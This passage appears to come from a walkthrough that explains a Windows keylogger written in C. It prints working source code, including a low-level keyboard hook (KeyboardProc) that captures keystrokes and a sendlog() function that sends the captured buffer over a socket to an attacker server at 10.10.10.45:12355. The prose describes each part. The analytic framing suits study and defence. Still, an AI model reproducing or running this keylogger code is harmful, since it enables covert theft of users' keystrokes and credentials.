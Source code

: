 ```c
        count = 0;
    }
}
```

Moving on to the logk function. Its main purpose to summarize is listening to any key clicked, converting it to unicode, or its corresponding function key, then adding it to the buffer. Then, when it reaches 25 characters, it adds the null byte '\0' and calls sendlog() function. So, the buffer size is 26.

```c
void sendlog() {
    WSADATA wsaData;
    SOCKET sock;
    struct sockaddr_in server;

    if (WSAStartup(MAKEWORD(2, 2), &wsaData) != 0) {
        printf("WSAStartup failed: %d\n", WSAGetLastError());
        return;
    }

    sock = socket(AF_INET, SOCK_STREAM, 0);
    if (sock == INVALID_SOCKET) {
        printf("Could not create socket! Error: %d\n", WSAGetLastError());
        WSACleanup();
        return;
    }

    server.sin_addr.s_addr = inet_addr("10.10.10.45");
    server.sin_family = AF_INET;
    server.sin_port = htons(12355);

    if (connect(sock, (struct sockaddr *)&server, sizeof(server)) < 0) {
        closesocket(sock);
        WSACleanup();
        return;
    }

    send(sock, buffer, strlen(buffer), 0);

    closesocket(sock);
    WSACleanup();
}
```

The sendlog function is mainly for sending the buffer to the server for the attacker to access the key logs. It sets up a windows socket with server IP 10.10.10.45 and port number 12355 then gets the buffer variable and transfers it.

```c
LRESULT CALLBACK KeyboardProc(int nCode, WPARAM wParam, LPARAM lParam) {
    if (nCode == HC_ACTION && wParam == WM_KEYDOWN) {
        KBDLLHOOKSTRUCT *kbd = (KBDLLHOOKSTRUCT *)lParam;
        logk(kbd->vkCode);
    }
    return CallNextHookEx(hHook, nCode, wParam, lParam);
}
```
To capture the keystrokes, the malware installs a low-level keyboard hook using the SetWindowsHookEx() function. The hook procedure is implemented in the KeyboardProc() function. When a key is pressed (WM_KEYDOWN), this function gets invoked and the key's virtual key code (vkCode) is passed to the logk() function for logging. HC_ACTION: The hook only processes the key events that require action, i.e., when a key is pressed down (WM_KEYDOWN).
